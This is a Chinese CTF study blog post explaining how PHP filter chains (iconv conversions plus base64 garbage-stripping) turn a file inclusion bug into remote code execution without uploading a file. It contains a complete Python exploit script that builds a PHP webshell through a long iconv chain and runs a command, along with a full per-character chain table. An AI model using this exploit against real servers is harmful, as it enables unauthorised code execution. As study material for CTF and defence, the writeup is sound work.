最近做到很多这种类似的题目，无论是pycc的include还是xyctf2024中的include_once，都可以实现一种从文件包含中进行getshell的手法，但自己没学过，做的时候就很崩

参考文章：[PHP filters chain: What is it and how to use it](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it)

[Solving "includer's revenge" from hxp ctf 2021 without controlling any files](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d)

https://bierbaumer.net/security/php-lfi-with-nginx-assistance/

几篇国外的文章，但是写的很详细，就是翻译起来比较 费劲

## 关于PHP过滤器

其实在文件包含中很大多数情况都看得到使用伪协议过滤器去进行文件读取的操作，从filter到data和input，都积累了一定的姿势，但是这些始终都是开胃菜

在大师傅的文章中，是研究了一个Laravel框架的register方法中的require函数，这个我们可以直接本地写一个

```php
<?php
class test{
    public $code;
    public function register($code){
        $this->code = $code;
        require $code;
    }
    public function __destruct(){
        $this -> register();
    }
}
```

这里暂且不谈如何利用，先把知识点讲清楚

### 什么是php://filter

其实这个之前就接触过很多次了，在文件包含include的时候经常用该封装器去读取文件数据流



然后我们看看过滤器

可用过滤器列表有四种

- 字符串过滤器
- 转换过滤器
- 压缩过滤器
- 加密过滤器

### 转换过滤器

转换过滤器我们最常用的就是convert.base64-encode 和 convert.base64-decode两种，这两种的作用等同于base64_encode()和base64_decode()函数，都是对数据进行base64的加密和解密，但是这里我们需要另外了解一个过滤器

#### convert.iconv.*

这是一个压缩过滤器，相当于使用iconv()函数处理数据，但是这个过滤器不支持参数，但可使用输入/输出的编码名称，组成过滤器名称，比如 `convert.iconv.<input-encoding>.<output-encoding>` 或 `convert.iconv.<input-encoding>/<output-encoding>` （两种写法的语义都相同）。



iconv函数用于将字符串从一种编码转换为另一种编码

语法

```
iconv(string $from_encoding, string $to_encoding, string $string): string|false
```

参数

- `from_encoding`

  用于解释的编码`string`。

- `to_encoding`

  结果所需的编码。

- string

要转化的字符串

返回值

返回转换后的字符串，或者如果发生错误返回false。

讲完了iconv过滤器，我们看看另一个有意思的地方

## base64decode的垃圾处理

关于base64，之前仅仅停留在绕过关键字过滤的层面，并为对其进行深入了解

需要记住的是，**base64的有效字符包含大小写字母(a-z,A-Z)，数字(0-9)，两个额外字符(+，/)，另外还有一个填充字符(=)**，那么如果包含其他字符的话，此时base64会怎么处理呢

其实之前我就有了解到，php中base64处理函数处理数据的时候十分灵活，通常会自动对字符串进行一个极佳的处理，例如我们这里尝试一下



发现一个很好玩的现象，如果我们在需要base64decode的字符前面加上一些非法字符，php并不会进行报错，而是忽略了这些无效的字符，最终解码的内容还是YmFzZTY0

然而这种现象不止表现在字符前，还可以在字符中和字符末尾加上非法字符，这始终不影响我们的解码，这恰恰说明了base64_decode函数在处理字符的时候只会过滤有效的字符



那换成在filter中的过滤器convert.base64-decode呢？



结果显而易见，都是一样的

但是即使PHP base64-decode filter和base64_decode函数在行为上非常接近，但它们之间在解释'='字符的方式上还是有区别的。

```
root@VM-16-12-ubuntu:/# echo "YmFzZTY0" > test.txt

root@VM-16-12-ubuntu:/# php -r "echo file_get_contents('php://filter/read=convert.base64-decode/resource=test.txt');"
base64

root@VM-16-12-ubuntu:/# php -r "echo base64_decode('YmFzZT==Y0');"
base64

root@VM-16-12-ubuntu:/# echo "YmFzZTY0==" > test1.txt

root@VM-16-12-ubuntu:/# php -r "echo file_get_contents('php://filter/read=convert.base64-decode/resource=test1.txt');"
PHP Warning:  file_get_contents(): Stream filter (convert.base64-decode): invalid byte sequence in Command line code on line 1
```

这里可以看到，在面对字符`=`的时候，由于某种未知的原因，base64-decode过滤器与默认的base64_decode PHP函数相比，过滤器不能正确地处理等号，所以需要解决这个问题我们需要做什么呢？

事情又回到`convert.iconv.*`过滤器上，之前我们在了解filter的时候就知道，参数中是可以设置一个或多个过滤器的，那我们是否可以将数据流进行一个编码后再进行base64过滤器的处理呢？

解决方案之一是使用UTF 7编码，它将等号转换为其他字符，而不会干扰base64解码过滤器。

```
root@VM-16-12-ubuntu:/# echo "YmFzZTY0==" > test1.txt

root@VM-16-12-ubuntu:/# php -r "echo file_get_contents('php://filter/read=convert.iconv.UTF8.UTF7/convert.base64-decode/resource=test1.txt');"
base64���
```

filter链

```
php://filter/read=convert.iconv.UTF8.UTF7/convert.base64-decode/resource=test1.txt
```

这里的话利用iconv将数据流从UTF8转化成UTF7，然后再进行base6解码，这里的话就会将`=`号进行编码为`+AD0`，然后被base64解码为无效的字符

经过上面的测试，我们可以从垃圾字符中过滤出有效的字符了，然后我们进入一个核心的问题，那就是从编码中过滤出前置字符，此时我们需要深入字符编码RFC，因为一些RFC实际上可以有一种方式去前置字符

## 字符序列标志




翻译过来就是

```
字节顺序标记（BOM）
   Unicode标准和ISO 10646定义了字符“ZERO WIDTH
   非中断空间”（0xFEFF），也被非正式地称为“字节
   订单标记”（缩写为“BOM”）。后一个名字暗示了第二个
   字符的可能用法，除了作为
   真正的“零宽度非中断空间”内的文字。这种用法，
   根据Unicode第2.4节和ISO 10646附录F（资料性）的建议，
   是将0xFEFF字符前置到Unicode字符流，
   “签名”;这样的串行化流的接收器然后可以使用
   初始字符作为流由以下内容组成的提示
   Unicode字符和作为识别序列化顺序的一种方法。
   在序列化的UTF-16中，前缀有这样的签名，顺序是
   big-endian，如果前两个八位字节是0xFE后跟0xFF;如果它们
   是0xFF后面跟着0xFE，顺序是little-endian。注意
   0xFFFE不是Unicode字符，正是为了保留
   0xFEFF作为字节顺序标记的有用性。
```

这里其实不难看出，将0xFEFF字符前置到Unicode字符流，从而实现一种签名

另外再看看韩文字符

```
It is assumed that the starting code of the message is ASCII.  ASCII
   and Korean characters can be distinguished by use of the shift
   function.  For example, the code SO will alert us that the upcoming
   bytes will be a Korean character as defined in KSC 5601.  To return
   to ASCII the SI code is used.

   Therefore, the escape sequence, shift function and character set used
   in a message are as follows:

           SO           KSC 5601
           SI           ASCII
           ESC $ ) C    Appears once in the beginning of a line
                            before any appearance of SO characters.
```

翻译一下啊

```
假设消息的起始代码是ASCII。  ASCII
   和韩语字符可以通过使用移位来区分
   功能  例如，代码SO将提醒我们即将到来的
   字节将是KSC 5601中定义的韩语字符。  返回
   ASCII使用SI代码。
   因此，转义序列，移位函数和字符集使用
   消息如下：
           所以           KSC 5601
           SI           ASCII
           ESC $）C    在行首出现一次
                            在任何SO角色出现之前。
```

通过上面的例子可以看出，这些编码的背后有着一种”特殊的标识“，这些标识出现的时候就意味着后面的字符可能包含若干个该标识对应的编码

例如`ESC $）C`，这是一个特殊的转义序列，用于在消息的开头（或行的开头）明确表示后续的字符可能包含 KSC 5601 编码的韩文字符。

所以这意味着要被视为ISO-2022-KR，消息必须以序列`“ESC $）C”`开始。 

| Encoding identifier | Prepended characters |
| :------------------ | :------------------- |
| ISO2022KR           | \x1b$)C              |
| UTF16               | \xff\xfe             |
| UTF32               | \xff\xfe\x00\x00     |

该表概述了ISO/IEC 2022和Unicode编码的特殊前置序列。这些将在不破坏base64字符串完整性的情况下前置字符，使它们在PHP过滤器链中可用。

## 构造字符

例如我们想前置一个字符8可以通过三个步骤实现

我们的目标是从一个表跳转到另一个表以获得特定的字符。为了预先准备一个8，我们将需要iso 8859 -10（涵盖斯堪的纳维亚语言）和UNICODE表。

图片来源https://www.synacktiv.com/sites/default/files/inline-images/prepend_character8.png



- 将字符串转换为UTF16以前置'\xff\xfe'
- 将创建的字符串转换为latin6，'\xff'相当于拉丁字符kra` 'k'`
- 将字符串转换回UTF16，其中字符`k"`等效于”\x01\x38“
- 最后，打印时将逐个字符解释链，因此“\x38”变为“8”

用代码去实现

```php
<?php
$return = iconv( 'UTF8', 'UTF16', "START");
echo(bin2hex($return)."\n");
echo($return."\n");
$return2 = iconv( 'LATIN6', 'UTF16', $return);
echo(bin2hex($return2)."\n");
echo($return2."\n");
```

然后运行

```php
root@VM-16-12-ubuntu:/# php 1.php 
fffe53005400410052005400
��START
fffe3801fe005300000054000000410000005200000054000000
��8�START
```

可以看到这里成功构造出了8，那么我们就可以尝试构造我们想要的字符，然而结合在文件包含函数的特性，无论什么内容都会当成php代码去执行，这也意味着只要我们构造出了恶意的php代码就会顺利的执行，这也为我们带来了许多方便

这个方法是基于一个脚本上找到的Hacktricks

[LFI2RCE via PHP Filters](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/lfi2rce-via-php-filters.html#lfi2rce-via-php-filters)

这篇文章解释了你可以使用php过滤器来生成任意的内容作为输出。这基本上意味着我们可以为include生成任意php代码，而无需将其写入文件。 基本上，该脚本的目标是在文件的开头生成一个Base64字符串，该字符串将被最终解码，提供将由include解释的所需payload。

这个脚本的原则是什么呢？

1. prepend `\x1b$)C` to our string as described above
2. apply some chain of iconv conversions that leaves our initial base64 intact and converts the part we just prepended to some string where the only valid base64 char is the next part of our base64-encoded php code
3. base64-decode and base64-encode the string which will remove any garbage in between
4. Go back to 1 if the base64 we want to construct isn't finished yet
5. base64-decode to get our php code

翻译过来就是

- 如上所述，将\x1b$）C前置到我们的字符串中
- 应用一些iconv转换链，使我们最初的base64保持不变，并将我们刚刚添加的部分转换为某个字符串，其中唯一有效的base64字符是我们base64编码的php代码的下一部分
- base64-decode和base64-encode字符串，这将删除其间的任何垃圾
- 如果我们要构造的base64尚未完成，则返回1
- base64-decode获取php代码

## 完整脚本

```php
import requests

url = "http://localhost/index.php"
file_to_use = "php://temp"
command = "/readflag"

#<?=`$_GET[0]`;;?>
base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4"

conversions = {
    'R': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'B': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C': 'convert.iconv.UTF8.CSISO2022KR',
    '8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'f': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    's': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    'z': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
    'U': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'P': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
    'V': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    '0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    'Y': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'W': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
    'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'D': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    '7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
}


# generate some garbage base64
filters = "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.base64-encode|"
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
filters += "convert.iconv.UTF8.UTF7|"


for c in base64_payload[::-1]:
        filters += conversions[c] + "|"
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"

filters += "convert.base64-decode"

final_payload = f"php://filter/{filters}/resource={file_to_use}"

r = requests.get(url, params={
    "0": command,
    "action": "include",
    "file": final_payload
})

print(r.text)

```

前面的脚本仅限于该有效负载所需的base64字符。因此，这位师傅创建了自己的脚本来强制所有base64字符

```php
conversions = {
    '0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    '1': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.OSF1002035D.EUC-KR|convert.iconv.MAC-CYRILLIC.T.61-8BIT|convert.iconv.1046.CSIBM864|convert.iconv.OSF1002035E.UCS-4BE|convert.iconv.EBCDIC-INT1.IBM943',
    '2': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO6937.OSF1002011C|convert.iconv.CP1146.EUCJP-OPEN|convert.iconv.IBM1157.UTF8',
    '3': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO8859-7.CSISOLATIN3|convert.iconv.ISO-8859-9.CP905|convert.iconv.IBM1112.CSPC858MULTILINGUAL|convert.iconv.EBCDIC-CP-NL.ISO-10646',
    '4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2',
    '5': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.RUSCII.IBM275|convert.iconv.CSEBCDICFR.CP857|convert.iconv.EBCDIC-CP-WT.ISO88591',
    '6': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO-IR-37.MACUK|convert.iconv.CSIBM297.ISO-IR-203',
    '7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'a': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSIBM9066.CP1371|convert.iconv.KOI8-RU.OSF00010101|convert.iconv.EBCDIC-CP-FR.ISO-IR-156',
    'b': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP1399.UCS4',
    'c': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.8859_9.OSF100201F4|convert.iconv.IBM1112.CP1004|convert.iconv.OSF00010007.CP285|convert.iconv.IBM-1141.OSF10020402',
    'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'e': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSISO27LATINGREEK1.SHIFT_JISX0213|convert.iconv.IBM1164.UCS-4',
    'f': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    'g': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022CN.CP855|convert.iconv.CSISO49INIS.IBM1142',
    'h': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.THAI8.OSF100201B5|convert.iconv.NS_4551-1.CP1160|convert.iconv.CP275.IBM297',
    'i': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.GB_198880.IBM943|convert.iconv.CUBA.CSIBM1140',
    'j': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSISO27LATINGREEK1.UCS-4BE|convert.iconv.IBM857.OSF1002011C',
    'k': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO88594.CP912|convert.iconv.ISO-IR-121.CP1122|convert.iconv.IBM420.UTF-32LE|convert.iconv.OSF100201B5.IBM-1399',
    'l': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSISO90.MACIS|convert.iconv.CSIBM865.10646-1:1993|convert.iconv.ISO_69372.CSEBCDICATDEA',
    'm': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.GB_198880.CSSHIFTJIS|convert.iconv.NO2.CSIBM1399',
    'n': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.GB_198880.IBM862|convert.iconv.CP860.IBM-1399',
    'o': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO8859-6.CP861|convert.iconv.904.UTF-16|convert.iconv.IBM-1122.IBM1390',
    'p': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP1125.IBM1146|convert.iconv.IBM284.ISO_8859-16|convert.iconv.ISO-IR-143.IBM-933',
    'q': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.NC_NC00-10:81.CSIBM863|convert.iconv.CP297.UTF16BE',
    'r': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO-IR-86.ISO_8859-4:1988|convert.iconv.TURKISH8.CP1149',
    's': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    't': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.WINDOWS-1251.CP1364|convert.iconv.IBM880.IBM-1146|convert.iconv.IBM-935.CP037|convert.iconv.IBM500.L3|convert.iconv.CP282.TS-5881',
    'u': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO_6937:1992.ISO-IR-121|convert.iconv.ISO_8859-7:1987.ANSI_X3.110|convert.iconv.CSIBM1158.UTF16BE',
    'v': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.HU.ISO_6937:1992|convert.iconv.CSIBM863.IBM284',
    'w': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO_6937-2:1983.857|convert.iconv.8859_3.EBCDIC-CP-FR',
    'x': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP1254.ISO-IR-226|convert.iconv.CSMACINTOSH.IBM-1149|convert.iconv.EBCDICESA.UCS4|convert.iconv.1026.UTF-32LE',
    'y': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.EBCDIC-INT1.IBM-1399',
    'z': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
    'A': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO-IR-111.IBM1130|convert.iconv.L1.ISO-IR-156',
    'B': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C': 'convert.iconv.UTF8.CSISO2022KR',
    'D': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    'E': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.LATIN7.MACINTOSH|convert.iconv.CSN_369103.CSIBM1388',
    'F': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSIBM9448.ISO-IR-103|convert.iconv.ISO-IR-199.T.61|convert.iconv.IEC_P27-1.CP937',
    'G': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO_8859-3:1988.CP1142|convert.iconv.CSIBM16804.CSIBM1388',
    'H': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.GB_198880.EUCJP-OPEN|convert.iconv.CP5347.CP1144',
    'I': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO8859-6.DS2089|convert.iconv.OSF0004000A.CP852|convert.iconv.HPROMAN8.T.618BIT|convert.iconv.862.CSIBM1143',
    'J': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.US.ISO-8859-13|convert.iconv.CP9066.CSIBM285',
    'K': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.IBM1097.UTF-16BE',
    'L': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ECMACYRILLIC.IBM256|convert.iconv.GEORGIAN-ACADEMY.10646-1:1993|convert.iconv.IBM-1122.IBM920',
    'M': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.SE2.ISO885913|convert.iconv.866NAV.ISO2022JP2|convert.iconv.CP857.CP930',
    'N': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.IBM9066.UTF7|convert.iconv.MIK.CSIBM16804',
    'O': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO-IR-197.CSIBM275|convert.iconv.IBM1112.UTF-16BE|convert.iconv.ISO_8859-3:1988.CP500',
    'P': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
    'Q': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.NO.CP275|convert.iconv.EBCDIC-GREEK.CP936|convert.iconv.CP922.CP1255|convert.iconv.MAC-IS.EBCDIC-CP-IT',
    'R': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'S': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP1154.UCS4',
    'T': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.IBM1163.CP1388|convert.iconv.OSF10020366.MS-MAC-CYRILLIC|convert.iconv.ISO-IR-25.ISO-IR-85|convert.iconv.GREEK.IBM-1144',
    'U': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'V': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    'W': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
    'X': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.OSF10020388.IBM-935|convert.iconv.CP280.WINDOWS-1252|convert.iconv.CP284.IBM256|convert.iconv.CP284.LATIN1',
    'Y': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'Z': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSISO90.CSEBCDICFISE',
    '+': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ANSI_X3.4-1986.CP857|convert.iconv.OSF10020360.ISO885913|convert.iconv.EUCCN.UTF7|convert.iconv.GREEK7-OLD.UCS4',
    '=': ''
}

```

但是这里的过滤器链是否稳定呢？

例如我们这里看看b字符的构造

```php
'b': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP1399.UCS4',
```

然后本地测试一下

```
root@VM-16-12-ubuntu:/# php 1.php 
1b2429435354415254

$)CSTARTc28fc284c289efbda2efbdabefbdac1aefbdaaefbdac
„‰｢ｫｬｪｬ
0000008f00000084000000890000ff620000ff6b0000ff6c0000001a0000ff6a0000ff6c
����b�k�l�j�l
```

这里可以看到b字符成功生成且被前置，但是我们又发现一个新的问题，那就是内容被更改，原先的字符串START在转换的过程中发生了更改，这意味着我们现在的过滤器链会破坏我们之前的内容

按照这种逻辑，即使CSISO 2022 KR看起来很有前途，但它实际上并没有那么有用。它前置链`'\x1b$）C'`，因为'C'是base64的64个字符之一，如果你的一个链使用这种编码，而你前置了'C'以外的东西，这意味着你的过滤器链将不稳定。

## 稳定的过滤器链生成

然后就到了第一个师傅送给大家的福利啦！一个生成filter器链的脚本，这个脚本如果我们完全控制传递给PHP中的require或include的参数，无需上传文件即可获取RCE！

[php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

我们看看这个脚本的参数

